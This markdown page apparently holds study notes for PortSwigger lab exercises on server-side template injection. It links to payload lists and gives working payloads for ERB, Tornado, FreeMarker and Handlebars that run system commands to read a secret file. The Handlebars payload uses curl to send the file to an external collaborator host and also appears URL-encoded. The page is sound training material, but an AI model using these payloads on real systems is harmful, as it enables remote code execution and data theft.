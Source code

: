 # [Server-side template injection](https://portswigger.net/web-security/server-side-template-injection)

## Lab

- practitioner:
  - [1. Basic server-side template injection](./lab/1.%20Basic%20server-side%20template%20injection.md)
  - [2. Basic server-side template injection (code context)](./lab/2.%20Basic%20server-side%20template%20injection%20(code%20context).md)
  - [3. Server-side template injection using documentation](./lab/3.%20Server-side%20template%20injection%20using%20documentation.md)
  - [4. Server-side template injection in an unknown language with a documented exploit](./lab/4.%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit.md)
  - [5. Server-side template injection with information disclosure via user-supplied objects](./lab/5.%20Server-side%20template%20injection%20with%20information%20disclosure%20via%20user-supplied%20objects.md)

## payloads

- <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>

erb ruby:

```ruby
<%= system('cat /home/carlos/secret') %>
```

tornado python:

```python
{%import os%}{{os.system('cat /home/carlos/secret')}}
```

freemarker java:

```java
${"freemarker.template.utility.Execute"?new()("cat /home/carlos/secret")}
```

handlebars nodejs:

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('curl http://96dqv77vsq70wc2n56jjmqprvi19p7dw.oastify.com -d `cat /home/carlos/secret`');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%75%72%6c%20%68%74%74%70%3a%2f%2f%39%36%64%71%76%37%37%76%73%71%37%30%77%63%32%6e%35%36%6a%6a%6d%71%70%72%76%69%31%39%70%37%64%77%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%20%2d%64%20%60%63%61%74%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%73%65%63%72%65%74%60%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

## Summary

Try to fuzz every user input.

Maybe some functions have ssti vulnerable appear only after logging into a special account.

## References

[conference presentation](https://portswigger.net/research/server-side-template-injection)

[portswigger's research](https://portswigger.net/research/server-side-template-injection)
